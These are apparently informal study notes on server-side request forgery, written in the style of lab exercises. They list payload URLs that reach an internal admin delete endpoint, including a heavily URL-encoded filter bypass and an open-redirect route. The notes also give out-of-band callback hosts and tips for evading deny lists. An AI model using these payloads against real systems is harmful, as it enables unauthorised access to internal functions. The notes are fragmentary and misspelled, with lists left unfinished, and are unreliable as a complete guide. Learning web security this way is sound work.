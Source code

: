 you can convert ip to decimal or octal reprisentation

http://192.168.0.12:8080/admin/delete/
http://192.168.0.12:8080/admin/delete?username=carlos

/product/nextProduct?&path=http://192.168.0.12:8080/admin
http://192.168.0.12:%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33

http://r91gushu9cjj63pj30m3t3kvimocc1.burpcollaborator.net


http://xwxmhy40wi6pt9cpq699g9715sbjz8.burpcollaborator.net


think om how to add payload to site depending on how site proceses data
if it changes the subdomain you add youar whole domain the mke it error out 

ssrf can be spotted in web applications in many diffrent ways

1.by checking url in addres bar
2.a hidden field in a form
3 A partial url such as just the hostname
4

1. https://requestbin.com/ an alternative to burp collaborator


Defeating ssrf defences

1.Deny list 



